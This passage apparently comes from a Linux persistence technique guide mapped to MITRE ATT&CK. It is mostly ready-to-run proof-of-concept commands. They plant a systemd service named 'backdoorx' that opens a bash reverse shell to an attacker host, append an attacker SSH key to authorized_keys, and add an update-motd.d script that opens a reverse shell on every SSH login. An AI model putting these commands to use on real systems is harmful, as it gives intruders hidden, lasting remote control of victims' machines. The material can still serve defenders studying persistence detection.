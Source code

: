 As for the PoC, we create `backdoorx` service in /etc/systemd/system/ directory. Whenever the system start and the network is ready, it will established a reverse shell to adversary C2.

	$ Command:
	
	root@victim$ SYSTEMD_NAME='backdoorx'
	
	root@victim$ cat << EOF > /etc/systemd/system/$SYSTEMD_NAME.service
	[Unit]
	After=network-online.target
	[Service]
	Type=simple
	ExecStart=/bin/bash -c "bash -i >& /dev/tcp/$ATTACKERIP/6666 0>&1"
	[Install]
	WantedBy=multi-user.target'
	EOF
	
	root@victim$ systemctl daemon-reload
	root@victim$ systemctl start $SYSTEMD_NAME.service
	root@victim$ systemctl enable $SYSTEMD_NAME.service

## Creating SSH authorized_keys

[MITRE ID: T1098.004](https://attack.mitre.org/techniques/T1098/004/)

In SSH, the authorized keys file defines the SSH keys that can be used to login into the user account for whom the file is set up. It's a crucial configuration file since it sets up persistent access through SSH keys.

As for the PoC, we used adversary SSH Public Key that is placed on the server you intend to log in to.

	$ Command:
	
	victim@server$ echo 'ssh-rsa AAAAB3Nza7Y-SNIP-6v6tgj6V5Dt root@C2box' >> ~/.ssh/authorized_keys
	attacker@C2$ ssh victim@server

## Creating SSH MOTD banner

When you use SSH to log into a machine, a banner called Motd (Message of the Day) shows. Motd scripts for Ubuntu/Debian may be found in /etc/update-motd.d/. 

As for the PoC, we created a MOTD banner named 20-motd-bas that will make a reverse shell to adversary C2 server whenever any user login via SSH.

	$ Command:
	
	root@victim$ MOTDNAME='20-motd-bas'
	root@victim$ cat << EOF > /etc/update-motd.d/$MOTDNAME
	#!/bin/sh
	# Creating SSH motd banner
	/bin/bash -c "bash -i >& /dev/tcp/$ATTACKERIP/7777 0>&1" &
	EOF
	root@victim$ chmod +x /etc/update-motd.d/$MOTDNAME
